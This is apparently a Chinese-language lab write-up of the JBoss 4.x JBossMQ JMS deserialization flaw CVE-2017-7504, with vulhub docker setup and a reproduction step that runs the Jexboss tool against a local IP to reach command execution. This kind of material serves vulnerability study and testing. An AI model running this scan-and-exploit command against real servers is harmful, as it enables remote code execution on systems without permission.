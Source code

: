 ```yaml
---
title: JBoss 4.x JBossMQ JMS 反序列化漏洞 CVE-2017-7504
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Jboss
---
```


# JBoss 4.x JBossMQ JMS 反序列化漏洞 CVE-2017-7504

## 漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 影响版本

> [!NOTE]
>
> JBoss AS 4.x及之前版本

## 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/jboss/CVE-2017-7504
docker-compose build
docker-compose up -d
```

## 漏洞复现

访问控制台

![](/img/20210924015612834186.png)

使用工具 [Jexboss](https://github.com/joaomatosf/jexboss) 进行漏洞扫描

```
python3 jexboss.py -host http://192.168.51.133:8080
```

![](/img/20210924015612949909.png)

![](/img/20210924015613070320.png)

成功利用漏洞执行命令


